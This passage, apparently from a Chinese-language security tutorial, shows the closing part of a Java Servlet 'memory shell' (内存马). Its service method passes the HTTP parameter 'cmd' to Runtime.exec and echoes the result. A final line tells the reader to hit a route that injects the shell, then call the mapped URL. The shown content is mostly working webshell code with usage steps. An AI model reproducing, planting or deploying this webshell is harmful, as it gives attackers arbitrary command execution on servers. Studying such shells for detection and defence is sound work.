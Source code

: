 ```java

            }

            @Override
            public ServletConfig getServletConfig() {
                return null;
            }

            @Override
            public void service(ServletRequest req, ServletResponse res) throws ServletException, IOException {
                if (req.getParameter("cmd") != null) {
                    Runtime.getRuntime().exec(req.getParameter("cmd"));
                    res.getWriter().println("exec cmd with "+req.getParameter("cmd"));
                }else {
                    res.getWriter().println("shellServlet inject");
                }
            }

            @Override
            public String getServletInfo() {
                return null;
            }

            @Override
            public void destroy() {

            }
        };
}
}

```
![](img/2023-01-29-16-43-50.png)  
先访问该路由注入内存马后,访问映射的Url即可.  